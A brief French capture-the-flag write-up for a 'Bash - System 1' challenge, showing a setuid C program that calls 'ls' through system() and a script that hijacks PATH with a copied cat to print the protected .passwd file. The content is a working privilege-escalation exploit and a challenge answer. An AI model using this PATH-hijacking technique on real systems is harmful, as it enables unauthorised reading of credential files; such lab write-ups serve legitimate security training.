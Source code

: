 # Bash - System 1

1. Code à éxécuter

```
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}
```

## Exploitation du code

```
nano /tmp/flag.sh

#!/bin/bash
cp /bin/cat /tmp/ls
export PATH=/tmp
cd /challenge/app-script/ch11
./ch11
```

## Execution

```
cd /tmp
chmod 777 flag.sh
./flag.sh
```